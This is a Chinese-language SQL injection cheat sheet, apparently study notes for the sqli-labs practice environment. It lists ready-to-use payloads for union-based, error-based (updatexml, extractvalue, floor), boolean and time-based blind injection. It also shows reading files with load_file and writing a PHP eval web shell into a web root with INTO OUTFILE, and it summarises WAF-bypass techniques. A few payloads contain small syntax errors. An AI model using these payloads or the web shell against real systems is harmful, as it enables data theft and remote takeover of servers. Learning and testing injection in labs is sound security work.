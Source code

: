 # 常用SQL语句

#### MySql默认字段

![](file/image_EIDj9rYuHU.png)

## 限制

#### 一行显示

```sql
select group_concat(table_name) from information_schema.tables where table_schema='test' --+
```

#### 显示不完全

```sql
select substr(group_concat(table_name),1,15) from information_schema.tables where table_schema='test' --+

```

## 联合注入

#### 爆表名

```sql
union select table_name from information_schema.tables where table_schema='test' limit 0,1 --+
```

#### 爆字段名

```sql
union select column_name from information_schema.columns where table_schema='test' and table_name='users' limit 0,1 --+
```

#### 爆数据

```sql
union select username from users limit 0,1 --+
```

## 报错注入

#### updatexml

```sql
and updatexml(1,concat(0x7e,(select database()),0x7e),1) --+
```

#### extractvalue

```sql
and extractvalue(1,concat(0x7e,(select database))) --+
```

#### floor

```sql
and select concat(*),(concat(floor(rand(0)*2),(select version())))x from user group by x; --+
```

## &#x20;盲注

#### 常用函数

```sql
//通过长度判断 length()
length(database())>=x
//通过字符判断 substr()
substr(database(),1,1) =‘s’
//通过 ascII 码判断 ascii()
ascii(substr(database(),1,1)) =x

```

-   left(m,n) 从左向右截取字符串m返回前n位
-   substr(m,1,1) 取字符串m的左边第一位器，1字长的字符串
-   ascii(m) 返回字符串m的ASCII码
-   if(str1,str2,str3) 如果str1正确就执行str2，否则执行str3
-   sleep(m) 使程序暂停m秒
-   length(m) 返回字符串m的长度
-   count(column\_name) 返回指定列的值的数目

#### boolean盲注

```sql
and ascii(substr((select table_name from information_schema.tables where table_schema='test' limit 0,1),1,1))=1 --+

```

#### 时间盲注

```sql
and if(ascii(substr((select table_name from information_schema.tables where table_schema='test' limit 0,1),1,1))=116,sleep(5),1)
```

## 写入文件

#### 条件

-   知道绝对路径

#### 写入文件

```sql
union select 1,'<?php @eval($_POST["cmd"])?>',3 INTO outfile "E:\\phpStudy\\PHPTutorial\\WWW\\sqli\\Less-7\\shell.php" --+

```

#### 读取文件

```sql
union select 1,load_file('E:\phpStudy\PHPTutorial\WWW\sqli\Less-7\result.txt'),3 --+
```

## 一句话爆表名/字段名

```sql
//爆表名
select group_concat(table_name) from information_schema.tables where table_schema=database()
//爆字段名字
select group_concat(column_name) from information_schema.columns where table_schema=database()and table_name=(select table_name from information_schema.tables where table_schema=database() limit 1,1 )
```

## WAF绕过

-   双写，大小写，替换关键字，编码绕过注入，十六进制编码，Unicode编码
-   使用注释，普通注释，内联注释
-   等价函数和命令，符号 and和or可用 &&和||&#x20;
-   生僻函数&#x20;
-   特殊符号
